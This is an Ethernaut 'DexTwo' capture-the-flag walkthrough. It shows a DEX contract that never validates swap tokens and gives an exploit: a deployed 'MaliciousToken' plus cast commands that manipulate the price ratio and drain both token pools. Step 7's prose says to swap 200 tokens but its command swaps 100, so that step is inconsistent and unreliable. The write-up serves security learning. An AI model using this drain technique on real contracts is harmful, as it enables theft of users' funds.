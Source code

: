 ## Dex Level Outline

**Difficulty : 4/10**

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xd2BA82c4777a8d619144d32a2314ee620BC9E09c)

## Solution

The price is calculated based on the ratio of tokenA and tokenB. If we createa a malicious ERC20 token and add liquidity to the contract, we can control the exchange rate and drain all tokens.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20("MaliciousToken", "MALTKN") {
        _mint(msg.sender, 1000000);
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:MaliciousToken --private-key  $PRIVATE_KEY
```

##### 3. Approve the Dex contract to spend our tokens. We need to do this to add liquidity
```console
cast send $DEPLOYED_ADDRESS "approve(address,uint256)" $LEVEL_ADDRESS 200 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Send 100 of our `MALTKN` to the dex so that the price ratio between `token1` and `MALTKN` is 1:1
```console
cast send $LEVEL_ADDRESS "add_liquidity(address,uint)" $DEPLOYED_ADDRESS 100 --gas 150000 \ 
--private-key $PRIVATE_KEY
```


##### 5. Let's get the addresses for `token1` and `token2`
 
```console
cast call $LEVEL_ADDRESS "token1()"

cast call $LEVEL_ADDRESS "token2()"
```

##### 6. Now that the exchange rate is 1:1, let's send swap 100 of our malicious token to `token1` to drain the dex's supply of `token1`.
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN1_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

##### 7. Now the total supply of `MALTKN` in the contract is 200, meaning that the ratio between `MALTKN` and `token2` will be 0.5:1 
 
to drain the supply of `token2` we need to swap 200 `MALTKN` for `token2`
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN2_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

### [:arrow_left: Back To Main Menu](../)
